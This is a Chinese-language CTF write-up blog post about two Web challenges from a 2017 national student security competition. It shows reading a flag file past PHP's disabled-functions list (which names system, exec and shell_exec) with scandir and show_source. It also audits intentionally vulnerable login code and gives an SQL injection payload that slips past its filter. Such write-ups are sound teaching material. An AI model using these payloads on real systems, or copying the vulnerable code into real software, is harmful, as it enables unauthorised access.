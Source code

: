 ```yaml
---
title: 国赛的两个Web题
date: 2017-09-10 15:58:56
tags:
	- CTF
	- 全国大学生信息安全竞赛
	- Writeup
---
```

在全国大学生信息安全竞赛(线上赛)上划了波水，对我来说题目挺难的，好多姿势都没见过。
<!-- more -->

## 0x00 两个最简单的Web的题解


### Web-PHP execise
这个题目考察了PHP的几个简单的语法
首先在题目中执行phpinfo()函数
![image](https://image.mengsec.com/Web-PHPexcise-1.png)
在其中的找到被禁用的函数

```
disable_functions
assert,system,passthru,exec,pcntl_exec,shell_exec,popen,proc_open,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,fopen,file_get_contents,fread,file_get_contents,file,readfile,opendir,readdir,closedir,rewinddir,
```
然后通过getcwd()函数获取服务器当前目录路径
```
echo getcwd()
```
![image](https://image.mengsec.com/Web-PHPexcise-2.png)
从而获取路径

```
/var/www/html
```
然后获取当前目录下的所有文件的文件名
```p&#39;h&#39;p
$dir="/var/www/html";print_r(scandir($dir))
```
![image](https://image.mengsec.com/Web-PHPexcise-3.png)
判断flag在flag_62cfc2dc115277d0c04ed0f74e48e3e9.php这个文件中，但是PHP几乎所有对文件操作的函数都被禁用了。在这时想到了以前表哥们给我们出题的时候，有的Web题的源码直接显示在网页上了，利用的show_source()函数.于是乎：

```php
include"flag_62cfc2dc115277d0c04ed0f74e48e3e9.php";show_source("flag_62cfc2dc115277d0c04ed0f74e48e3e9.php")
```
从而获取flag

![image](https://image.mengsec.com/Web-PHPexcise-4.png)

### Web-wanna to see your hat?
这题有毒，不拿到flag就给你10个绿帽子。。(╯‵□′)╯︵┻━┻

主要考察的代码审计和SQL注入。首先有一个SVN源码泄露漏洞，利用工具将网站所有的源码下载下来，进行审计。关键代码如下:

```php
$_POST=d_addslashes($_POST);
$_GET=d_addslashes($_GET);
function d_addslashes($array){
        foreach($array as $key=>$value){
        if(!is_array($value)){
            !get_magic_quotes_gpc() && $value=addslashes($value);
            waf($value);
            $array[$key]=$value;
        }   
    }   
    return $array;
}
function waf($value){
    $Filt = "\bUNION.+SELECT\b|SELECT.+?FROM";
    if (preg_match("/".$Filt."/is",$value)==1){
        die("found a hacker");
    }
    $value = str_replace(" ","",$value);  
    return $value;
}
if (isset($_POST["name"])){
  $name = str_replace("'", "", trim(waf($_POST["name"])));
  if (strlen($name) > 11){
    echo("<script>alert('name too long')</script>");
  }else{
    $sql = "select count(*) from t_info where username = '$name' or nickname = '$name'";
    echo $sql;
    $result = mysql_query($sql);
    $row = mysql_fetch_array($result);
    if ($row[0]){
      $_SESSION['hat'] = 'black';
      echo 'good job';
    }else{
	$_SESSION['hat'] = 'green';
    }
```
最终目的是令$_SESSION['hat'] = 'black';这也就意味着在执行SQL语句时，可以返回数据。但是，在register.php的插入语句为

```php
$sql = "insert into t_user (username,nickname,password) values('".$_POST['username']."', '".$_POST['nickname']."','".md5($_POST['password'])."')";
```
它注册时写入数据的表与登陆时查询的表不是一个，这也把我的思路带偏了，我一开始认为，在register.php里面构造语句在t_info表中插入数据。但根据查到的资料显示，SQL只允许一个插入语句对一个表操作。没辙了。。去请教表哥们。
关键点在login.php，即登录界面。
关键语句
```php
$name = str_replace("'", "", trim(waf($_POST["name"])));
```
在POST传入name时，如果传进的字符串中有“'”单引号，则会被加上反斜杠进行转义，然后在waf里面，若有空格则会被去掉。然后“\'”中的单引号被去掉，成为了“\”,若这个反斜杠在结尾，则会把 
```php
$sql = "select count(*) from t_info where username = '$name' or nickname = '$name'";
```
第一个name的第二个单引号转义，导致

```php
$name' or nickname =
```
成为了字符串。因此令

```php
name==(0)=1#'	
```
最终执行的SQL语句为
```php
$sql = "select count(*) from t_info where username = '=(0)=1#\' or nickname = '=(0)=1#\'";
```
该语句为真，因此返回数据，使得$_SESSION['hat'] = 'black';从而返回flag
![image](https://image.mengsec.com/Web-green-1.png)
